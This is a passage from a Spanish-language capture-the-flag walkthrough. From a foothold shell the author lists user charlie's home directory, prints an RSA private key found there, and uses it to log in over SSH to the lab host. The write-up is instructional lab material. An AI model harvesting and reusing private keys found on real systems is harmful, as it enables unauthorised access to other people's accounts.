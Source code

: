 Por otro lado, nos dirigimos al directorio principal del usuario charlie y nos reporta una clave privada pero no podemos ver la flag del usuario.

```bash
$ pwd
/var/www/html
$ cd /home
$ ls
charlie
$ cd charlie
$ ls
teleport
teleport.pub
user.txt
$ cat teleport
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY
fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE
RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej
Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9
zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF
w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl
kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ
j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2
EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T
RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF
uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA
KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ
RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19
znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB
la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB
FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg
82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK
37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv
ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----
```

# [](#header-1)Acceso al sistema

Intentaremos acceder mediante ella. Nos copiamos la clave privada en nuestro equipo bajo el nombre id_rsa y le damos permisos de ejecución con chmod 600.

Después, nos conectamos mediante ssh y la clave privada:

```bash
❯ ssh -i id_rsa charlie@10.10.172.6
The authenticity of host '10.10.172.6 (10.10.172.6)' can't be established.
ED25519 key fingerprint is SHA256:WwycVD8zBUVfJS6sNVj192MU3Q7P4rylVnanjGx/Q5U.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:23: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.172.6' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```